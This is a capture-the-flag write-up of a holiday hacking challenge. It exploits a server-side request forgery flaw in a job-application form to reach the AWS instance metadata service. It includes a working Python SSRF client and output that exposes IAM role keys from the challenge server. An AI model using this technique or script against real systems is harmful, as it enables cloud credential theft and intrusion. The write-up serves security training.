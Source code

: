 # Solution

![Objective 10 description](img/hhc-2021-01.png)

Objective 10 asks us to retrieve the secret access key from the [Jack Frost Tower
job application server](https://apply.jackfrosttower.com/). Completing the IMDS
terminal gives us a hint to solving the objective: we need to access an [internal Amazon AWS
service](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
to obtain EC2 metadata. As we don't have direct access to the EC2 instance the job
application server is running on, there is likely an SSRF vulnerability on the website,
where the web server will perform the request for us and return the data received.

## Initial Recon

Visiting the [job application page](https://apply.jackfrosttower.com/) gives us a simple
job application site:

![Jack Frost Tower Jobs](img/hhc-2021-02.png)

with a simple web form for submitting a job applicaton:

![Job Application web form](img/hhc-2021-03.png)

One thing stands out: there is a field in the form for a URL to a **Naughty List
Background Investigation (NLBI)** report. 

![NLBI field](img/hhc-2021-04.png)

If the web server uses the URL in the web form to request data, it may be possible
to abuse this field to request data that normally isn't available. 

## Exploiting the SSRF Vulnerability

By using the 
techniques from the IMDS terminal and the data from the page referenced in the hint,
we can submit a request to the web server and see if it retrieves data from the internal
address of `http://169.254.169.254/latest/meta-data`:

![Fake submission](img/hhc-2021-05.png)

After submitting this, we get back a page with what appears to be a broken image:

![Successful submission](img/hhc-2021-06.png)

Viewing the source of the web page shows a link to `images/{name}.png`, with the
name we submitted in the form:

``` html
<div class="col-sm-4">
<div class="card text-white bg-secondary mb-3" style="max-width: 20rem;">
  <div class="card-body">
  <img class="rounded mx-auto d-block" src="images/pugpug.jpg" width="200px" />
  </div>
</div>
</div>
```


If we open a terminal and visit that URL with curl or wget, we see that the
file actually contains the data we requested from the internal AWS metadata service:

``` shell-session
$ curl https://apply.jackfrosttower.com/images/pugpug.jpg
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
...
```

## Automating the SSRF

The objective can be easily completed with just a browser and curl, but as I'm 
diving deeper into the application than just the objective, I wrote a quick Python
script to provide a CLI for requesting URLs from the service. It's based on a
template I developed after reading [0xdf](https://twitter.com/0xdf_)'s
[blog](https://0xdf.gitlab.io/), specifically his use of Python's `Cmd` module
to generate an easy to use CLI.

(seriously, go follow `0xdf_` on twitter and read his blog, it's awesome)

We start with Python boilerplate, defining the payload necessary to fill the web
form to trigger the SSRF:

``` python
#!/usr/bin/env python3

import argparse
import cmd
import os
import requests
import random
import sys

# Generate a random name to avoid conflicts with others
name = 'pugpug{:03d}'.format(random.randint(1, 999))

# The payload, copied from ZAProxy
payload = {
    'inputName': name,
    'inputEmail': 'pug@pug.pug',
    'inputPhone': '313-555-1212',
    'inputField': 'Aggravated pulling of hair',
    'resumeFile': '',
    'additionalInformation': '',
    'submit': ''
}
```

The `fetch()` function submits the data to the web form, sending the passed
argument as the `inputWorkSample` field. It then requests the image file 
containing the data from the triggered SSRF, returning the request data.

``` python
# Send two requests to the web server: the application submission, then
# request the 'image', returning whatever we pull back.
#
# parser.url is the URL of the website, from argparse
def fetch(args):
    # Set the URL field to whatever is passed in the argument
    payload['inputWorkSample'] = args
    r = requests.get(parser.url, params = payload)
    r = requests.get(parser.url + f'images/{name}.jpg')
    return r.text
```

The heart of the program uses the [`Cmd`](https://docs.python.org/3/library/cmd.html)
module to generate a command-line interface. After some boilerplate code to set up
the class, the `default` function calls `fetch()` with what was entered on the 
command line, printing the result to the screen.

``` python
# The CLI module
class Term(cmd.Cmd):
    # Boilerplate to make the CLI more friendly.
    prompt = 'ssrf> '
    def emptyline(self):
        pass
    def postloop(self):
        print()
    def do_exit(self, args):
        return True
    def do_EOF(self, args):
        return True

    # Main cmd loop: fetch whatever is entered at the prompt via the SSRF on
    # the web server, and print the result.
    def default(self, args):
        print(fetch(args))
```

The main program accepts two optional arguments: `--url` allows one to specify
a different URL to interact with, while `--file` specifies a single URL to request,
without running the CLI. This is useful for saving larger requested URLs without
copy/pasting.

``` python
# Main program. The code accepts two arguments:
#
# --file: retrieve a single URL/file and print it. Useful for one-shot
#         file retrieval and storage 
#         (e.g. ssrf.py --file https://google.com > google)
#
# --url: the top-leve URL to send requests to. Will come in handy if we're
#        able to duplicate the website functionality locally

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--file', dest='filename', 
            required=False, type=str, help='Filename to fetch')
    parser.add_argument('--url', dest='url', 
            default='https://apply.jackfrosttower.com/',
            required=False, help='Top-level URL')
    parser = parser.parse_args()

    if parser.filename:
        print(fetch(parser.filename))
    else:
        term = Term()
        term.cmdloop()
```

## Retrieving the Objective Data

With this script, we can easily request the current role associated with the instance
by querying 
`http://169.254.169.254/latest/meta-data/iam/security-credentials`, then use the
`role` returned to fetch the access keys:

``` shell-session
$ python3 apply-ssrf.py
ssrf> http://169.254.169.254/latest/meta-data/iam/info
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "InstanceProfileArn": "arn:aws:iam::896453262835:instance-profile/jf-deploy-role",
        "InstanceProfileId": "AIPA5BOGHHXZELSK34VU4"
}
ssrf> http://169.254.169.254/latest/meta-data/iam/security-credentials
jf-deploy-role
ssrf> http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

The SecretAccessKey is **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**
